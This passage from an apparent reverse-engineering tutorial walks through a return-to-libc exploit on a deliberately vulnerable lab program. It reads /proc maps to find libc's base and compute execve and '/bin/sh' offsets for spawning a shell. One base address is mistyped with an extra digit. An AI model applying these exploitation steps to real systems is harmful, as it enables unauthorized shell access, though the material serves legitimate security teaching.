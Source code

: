         f7fa6000-f7fa9000 rw-p 00000000 00:00 0 
        f7fd3000-f7fd4000 rw-p 00000000 00:00 0 
        f7fd4000-f7fd7000 r--p 00000000 00:00 0                                  [vvar]
        f7fd7000-f7fd9000 r-xp 00000000 00:00 0                                  [vdso]
        f7fd9000-f7ffc000 r-xp 00000000 08:02 25694622                           /lib/i386-linux-gnu/ld-2.23.so
        f7ffc000-f7ffd000 r--p 00022000 08:02 25694622                           /lib/i386-linux-gnu/ld-2.23.so
        f7ffd000-f7ffe000 rw-p 00023000 08:02 25694622                           /lib/i386-linux-gnu/ld-2.23.so
        fffdc000-ffffe000 rw-p 00000000 00:00 0                                  [stack]

* libc's base address = 0xf7df30000. 

Therefore, 

**execve_offset** = 0xf7ea37e0 - 0xf7df30000 = **722912**
**binsh_offset** =  0xf7f4ea0b - 0xf7df30000 = **1423883**
**null_address** = **0x8048007** (We are taking the first address)

Note that **/bin/sh** is also present in **libc**'s address space. 

Also note that these addresses might be different in your machine. But the method is the same. 

2. Let us run the vulnerable program normally and get their addresses. 

        rev_eng_series/post_15}=)> ./defeat
        Before calling func

        rev_eng_series/post_15}=)> ps -e | grep defeat
        12607 pts/19   00:00:00 defeat

    * Now, let us open /proc/12607/maps file and get **libc_address**. 

            rev_eng_series/post_15}=)> cat /proc/12607/maps
            08048000-08049000 r-xp 00000000 08:02 6558856                            /home/adwi/ALL/rev_eng_series/post_15/defeat
            08049000-0804a000 r--p 00000000 08:02 6558856                            /home/adwi/ALL/rev_eng_series/post_15/defeat
            0804a000-0804b000 rw-p 00001000 08:02 6558856                            /home/adwi/ALL/rev_eng_series/post_15/defeat
            0804b000-0806c000 rw-p 00000000 00:00 0                                  [heap]
            f7df2000-f7df3000 rw-p 00000000 00:00 0 
            f7df3000-f7fa3000 r-xp 00000000 08:02 25694743                           /lib/i386-linux-gnu/libc-2.23.so
            f7fa3000-f7fa5000 r--p 001af000 08:02 25694743                           /lib/i386-linux-gnu/libc-2.23.so
            f7fa5000-f7fa6000 rw-p 001b1000 08:02 25694743                           /lib/i386-linux-gnu/libc-2.23.so
            f7fa6000-f7fa9000 rw-p 00000000 00:00 0 
            f7fd3000-f7fd4000 rw-p 00000000 00:00 0 
            f7fd4000-f7fd7000 r--p 00000000 00:00 0                                  [vvar]
            f7fd7000-f7fd9000 r-xp 00000000 00:00 0                                  [vdso]
            f7fd9000-f7ffc000 r-xp 00000000 08:02 25694622                           /lib/i386-linux-gnu/ld-2.23.so
            f7ffc000-f7ffd000 r--p 00022000 08:02 25694622                           /lib/i386-linux-gnu/ld-2.23.so
            f7ffd000-f7ffe000 rw-p 00023000 08:02 25694622                           /lib/i386-linux-gnu/ld-2.23.so
            fffdc000-ffffe000 rw-p 00000000 00:00 0                                  [stack]
